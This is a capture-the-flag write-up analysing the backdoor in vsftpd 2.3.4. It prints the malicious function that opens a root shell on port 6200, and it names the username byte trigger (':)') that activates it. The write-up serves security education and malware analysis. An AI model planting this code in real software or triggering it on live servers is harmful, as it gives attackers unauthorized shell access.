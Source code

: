 # vsftpd Backdoor (novice - 50 Points)

## Task
An incident, we got alerted that a vsftpd download from the master site (vsftpd-2.3.4.tar.gz) appeared to contain a backdoor
Goal: find the backdoor

Backdoor Version: vsftpd-2.3.4-backdoor.tar.gz

Expected Result:

- please find the backdoor
- explain how you were able to find it
- explain the purpose of the backdoor (what it does)

# Solution

After a little bit of google, I found that this particular vsftpd version really contained a backdoor in the
original version. After looking at the metasploit exploit targeting that version, I start searching in the source-code
for the backdoor. The backdoor function was in the sysdeputil.c file and was essentially this function:

```
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

The function opens the port 6200 and forward the input on the port directly to a shell. So the port accepts
direct shell commands. This function was called in the function "str_contains_space", which is used to check the username.
For this reason, the metasploit module targets it via the FTP username. To trigger the backdoor function, it compares the following:

```
else if((p_str->p_buf[i]==0x3a)
&& (p_str->p_buf[i+1]==0x29))
{
  vsf_sysutil_extra();
}
```

So it basically compares if the input string contains the sequence of 2 particular bytes, 0x3a and 0x29. This this is the case, the backdoor
port gets open and is active.
